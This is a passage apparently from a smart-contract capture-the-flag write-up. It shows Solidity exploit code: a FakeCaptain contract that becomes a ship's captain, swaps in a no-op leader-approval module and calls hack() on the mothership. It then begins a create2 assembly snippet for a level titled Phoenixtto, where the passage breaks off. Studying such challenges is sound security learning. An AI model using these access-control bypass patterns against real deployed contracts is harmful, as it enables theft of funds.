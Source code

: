 ```Solidity
        captain.hack(address(ship));
    }


}

contract FakeCaptain {

    constructor() {

    }

    function hack(address _ship) external {
        IMotherShip(_ship).hack();
    }

    function attack(address _spaceship) public {
        ISpaceShip(_spaceship).askForNewCaptain(address(this));
        ISpaceShip(_spaceship).addModule(ISpaceShip.isLeaderApproved.selector,address(this));
    }


    function isLeaderApproved(address) external pure {

    }
}

interface IMotherShip{
    function hack() external;
    function promoteToLeader(address _leader) external;
    function fleet(uint256) external returns (address);
}

interface ISpaceShip{
    function askForNewCaptain(address _newCaptain) external;
    function addModule(bytes4 _moduleSig, address _moduleAddress) external;
    function replaceCleaningCompany(address _cleaningCompany) external;
    function addAlternativeRefuelStationsCodes(uint256 refuelStationCode) external;
    function isLeaderApproved(address) external pure;
}
```



<hr />

# 10.  Phoenixtto

```solidity
        assembly {
            x := create2(0, add(_code, 0x20), mload(_code), 0)
        }
        addr = x;
```
